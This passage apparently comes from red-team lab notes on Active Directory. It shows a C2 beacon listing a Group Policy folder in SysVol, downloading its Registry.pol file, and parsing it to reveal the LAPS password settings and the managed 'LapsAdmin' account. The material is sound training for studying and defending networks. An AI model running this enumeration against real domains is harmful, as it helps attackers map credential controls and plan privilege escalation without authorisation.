 **Upon locating the correct GPO, we can download the LAPS configuration from the&#x20;**<mark style="color:yellow;">**`gpcfilesyspath`**</mark>**:**

```
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 12:39:19   Applications
          dir     09/13/2022 15:38:58   Microsoft
          dir     08/16/2022 12:23:37   Preferences
          dir     08/16/2022 12:21:04   Scripts
 575b     fil     08/16/2022 12:22:23   comment.cmtx
 920b     fil     08/16/2022 12:22:23   Registry.pol

beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol
[*] started download of \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol (920 bytes)
[*] download of Registry.pol is complete
```

**The `Parse-PolFile` cmdlet from the** [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) **package can be used to convert this file into human-readable format:**

```
PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordComplexity
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 3

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordLength
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 14

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordAgeDays
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 30

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdminAccountName
ValueType   : REG_SZ
ValueLength : 20
ValueData   : LapsAdmin

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdmPwdEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PwdExpirationProtectionEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 0
```
